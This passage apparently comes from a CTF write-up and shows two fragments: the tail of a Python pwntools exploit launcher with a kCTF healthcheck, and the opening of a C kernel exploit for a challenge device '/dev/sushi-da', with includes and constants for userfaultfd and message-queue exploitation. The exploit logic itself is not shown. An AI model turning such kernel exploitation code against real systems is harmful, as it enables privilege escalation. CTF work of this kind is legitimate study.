 ```exploit.py
          handle_pow(c)
    else:
        c = remote(rhp2['host'],rhp2['port'])

    try:
        exploit()
    except:
        print("\n")
        print(sys.exc_info()[0], sys.exc_info()[1])
        print("\n[?] exploit failed... try again...")
        exit(4)
    if kctf:
        print("\n[+] healthcheck success!")
        exit(0)
    else:
        c.interactive()
```

kernel.
```exploit.c
#define _GNU_SOURCE
#include <string.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>
#include <assert.h>
#include <stdlib.h>
#include <signal.h>
#include <poll.h>
#include <pthread.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <linux/bpf.h>
#include <linux/filter.h>
#include <linux/userfaultfd.h>
#include <linux/prctl.h>
#include <sys/syscall.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/xattr.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <sys/shm.h>

#include "../include/sushi-da.h"


// commands
#define DEV_PATH "/dev/sushi-da"   // the path the device is placed

// constants
#define PAGE 0x1000
#define FAULT_ADDR 0xdead0000
#define FAULT_OFFSET PAGE
#define MMAP_SIZE 4*PAGE
#define FAULT_SIZE MMAP_SIZE - FAULT_OFFSET
// (END constants)

// globals
```